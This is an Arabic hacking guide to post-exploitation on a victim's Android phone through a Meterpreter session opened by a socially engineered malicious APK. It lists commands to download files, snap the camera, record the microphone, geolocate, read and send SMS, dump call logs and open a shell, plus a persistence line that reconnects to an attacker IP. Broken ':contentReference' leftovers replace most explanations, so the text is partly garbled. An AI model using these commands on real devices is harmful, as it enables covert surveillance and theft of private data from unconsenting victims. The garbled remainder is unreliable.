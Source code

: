 ⚠️ تذكير:  
كل ما في هذا الدليل لأغراض تعليمية فقط.  
الاختراق غير المصرح به جريمة يعاقب عليها القانون.  
     _____
         /     \
        | O   O | 
        |   ∆   | 
         \  ~  / 
          -----
        ANDROID  


# 🎯 ما بعد الاستغلال في Android باستخدام Meterpreter

---

## 🚀 المقدمة

بعدما نجحنا في إنشاء الـ APK الخبيث، ووقعناه، وأرسلناه للضحية بطريقة هندسة اجتماعية محكمة، تمكنا من فتح جلسة Meterpreter على جهاز Android المستهدف. الآن، تبدأ مرحلة ما بعد الاستغلال، حيث يمكننا تنفيذ مجموعة من الأوامر لجمع المعلومات، التحكم في الجهاز، وتنفيذ مهام متقدمة.:contentReference[oaicite:6]{index=6}

---

## 🛠️ أوامر Meterpreter الأساسية لجهاز Android

### 📄 إدارة الملفات

- `ls` :contentReference[oaicite:8]{index=8}
- `cd` :contentReference[oaicite:11]{index=11}
- `pwd` :contentReference[oaicite:14]{index=14}
- `download [اسم الملف]` :contentReference[oaicite:17]{index=17}
- `upload [اسم الملف]` :contentReference[oaicite:20]{index=20}:contentReference[oaicite:22]{index=22}

### 🔍 جمع المعلومات

- `sysinfo` :contentReference[oaicite:24]{index=24}
- `getuid` :contentReference[oaicite:27]{index=27}
- `ps` :contentReference[oaicite:30]{index=30}:contentReference[oaicite:32]{index=32}

### 🎥 التحكم في الكاميرا

- `webcam_list` :contentReference[oaicite:34]{index=34}
- `webcam_snap` :contentReference[oaicite:37]{index=37}:contentReference[oaicite:39]{index=39}

### 🎙️ التحكم في الميكروفون

- `record_mic` :contentReference[oaicite:41]{index=41}:contentReference[oaicite:43]{index=43}

### 📍 تحديد الموقع

- `geolocate` :contentReference[oaicite:45]{index=45}:contentReference[oaicite:47]{index=47}

### 💬 التحكم في الرسائل

- `sms_list` :contentReference[oaicite:49]{index=49}
- `sms_send [رقم الهاتف] [الرسالة]` :contentReference[oaicite:52]{index=52}:contentReference[oaicite:54]{index=54}

### 📞 التحكم في المكالمات

- `dump_calllog` :contentReference[oaicite:56]{index=56}
- `call [رقم الهاتف]` :contentReference[oaicite:59]{index=59}:contentReference[oaicite:61]{index=61}

### 🧩 أوامر إضافية

- `shell` :contentReference[oaicite:63]{index=63}
- `run [module]` :contentReference[oaicite:66]{index=66}
- `background` :contentReference[oaicite:69]{index=69}
- `sessions` :contentReference[oaicite:72]{index=72}:contentReference[oaicite:74]{index=74}
run persistence -U -i 60 -p 443 -r YOUR_IP  # إعادة اتصال كل 60 ثانية  

---

## ⚠️ ملاحظات هامة

- :contentReference[oaicite:76]{index=76}
- :contentReference[oaicite:79]{index=79}:contentReference[oaicite:81]{index=81}

---

## 📚 مصادر إضافية

- [Post-Exploitation Wiki - Android](https://github.com/mubix/post-exploitation-wiki/blob/master/mobile/android.md)
- [Top 10 Meterpreter Commands](https://www.getastra.com/blog/security-audit/meterpreter-commands-post-exploitation/)
- [Metasploit Documentation - Post-Exploitation](https://docs.rapid7.com/metasploit/about-post-exploitation)

---




            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  
█                               █  
█  هذا الدليل لأغراض تعليمية    █  
█  فقط. الاختراق غير المصرح به   █  
█  جريمة يعاقب عليها القانون!   █  
▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀  


